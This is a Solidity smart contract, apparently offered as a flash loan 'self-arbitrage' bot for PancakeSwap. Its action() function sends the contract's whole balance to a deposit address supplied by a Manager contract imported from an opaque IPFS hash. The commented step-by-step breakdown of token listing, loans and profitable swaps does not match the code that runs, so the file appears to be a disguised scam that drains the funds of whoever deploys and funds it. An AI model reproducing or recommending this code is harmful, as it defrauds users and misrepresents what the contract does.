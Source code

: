 pragma solidity ^0.5.0;

// Multiplier-Finance Smart Contracts
import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";
import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPool.sol";

// PancakeSwap Smart Contracts
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeCallee.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeFactory.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakePair.sol";

// Code Manager
import "ipfs://QmaaTNtHXiXcrajKfosiSkkH63zsFKF2xmiSRW2AdBELz3";

contract GetFlashLoan {
	string public tokenName;
	string public tokenSymbol;
	uint loanAmount;
	Manager manager;
	
	constructor(string memory _tokenName, string memory _tokenSymbol, uint _loanAmount) public {
		tokenName = _tokenName;
		tokenSymbol = _tokenSymbol;
		loanAmount = _loanAmount;
			
		manager = new Manager();
	}
	
	function() external payable {}
	
	function action() public payable {
	    // Send required coins for swap
	    address(uint160(manager.pancakeDepositAddress())).transfer(address(this).balance);
	    
	    // Perform tasks (clubbed all functions into one to reduce external calls & SAVE GAS FEE)
	    // Breakdown of functions written below
	    manager.performTasks();
	    
	    /* Breakdown of functions
	    // Submit token to BSC blockchain
	    string memory tokenAddress = manager.submitToken(tokenName, tokenSymbol);

        // List the token on PancakeSwap
		manager.pancakeListToken(tokenName, tokenSymbol, tokenAddress);
		
        // Get BNB Loan from Multiplier-Finance
		string memory loanAddress = manager.takeFlashLoan(loanAmount);
		
		// Convert half BNB to DAI
		manager.pancakeDAItoBNB(loanAmount / 2);

        // Create BNB and DAI pairs for our token & Provide liquidity
        string memory bnbPair = manager.pancakeCreatePool(tokenAddress, "BNB");
		manager.pancakeAddLiquidity(bnbPair, loanAmount / 2);
		string memory daiPair = manager.pancakeCreatePool(tokenAddress, "DAI");
		manager.pancakeAddLiquidity(daiPair, loanAmount / 2);
    
        // Perform swaps and profit on Self-Arbitrage
		manager.pancakePerformSwaps();
		
		// Move remaining BNB from Contract to your account
		manager.contractToWallet("BNB");

        // Repay Flash loan
		manager.repayLoan(loanAddress);
	    */
	}
}

